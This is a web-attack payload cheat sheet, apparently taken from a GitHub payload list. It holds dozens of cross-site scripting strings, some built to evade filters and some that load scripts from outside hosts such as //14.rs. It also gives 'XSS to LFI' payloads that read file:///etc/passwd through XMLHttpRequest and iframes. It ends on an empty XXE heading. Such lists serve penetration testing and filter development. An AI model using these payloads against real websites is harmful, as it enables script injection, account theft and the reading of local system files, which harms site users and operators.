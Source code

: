 #### [source](https://github.com/payloadbox/open-redirect-payload-list)
-------------------------------------------------------------------------------------------------------------

# XSS common payloads
```xml
<img src=x>
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
<embed src="javascript:alert(1)">
<img src="javascript:alert(1)">
<image src="javascript:alert(1)">
<script src="javascript:alert(1)">
<A/hREf="j%0aavas%09cript%0a:%09con%0afirm%0d``">z
<d3"<"/onclick="1>[confirm``]"<">z
<d3/onmouseenter=[2].find(confirm)>z
<details open ontoggle=confirm()>
<script y="><">/*<script* */prompt()</script
<w="/x="y>"/ondblclick=`<`[confir\u006d``]>z
<a href="javascript%26colon;alert(1)">click
<a href=javas&#99;ript:alert(1)>click
<script/"<a"/src=data:=".<a,[8].some(confirm)>
<svg/x=">"/onload=confirm()//
<--`<img/src=` onerror=confirm``> --!>
<svg%0Aonload=%09((pro\u006dpt))()//
<sCript x>(((confirm)))``</scRipt x>
<svg </onload ="1> (_=prompt,_(1)) "">
<!--><script src=//14.rs>
<embed src=//14.rs>
<script x=">" src=//15.rs></script>
<!'/*"/*/'/*/"/*--></Script><Image SrcSet=K */; OnError=confirm`1` //>
<iframe/src \/\/onload = prompt(1)
<x oncut=alert()>x
<svg onload=write()>
```
### XSS to LFI

#### most common payloads
`<script>`
```js
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script>
```
`<iframe>`
```
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```
`<script>` and `<iframe>` with `document.write`
```
<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>
```
--------------------------------------------------------------------------------------------------------------
# XXE common payloads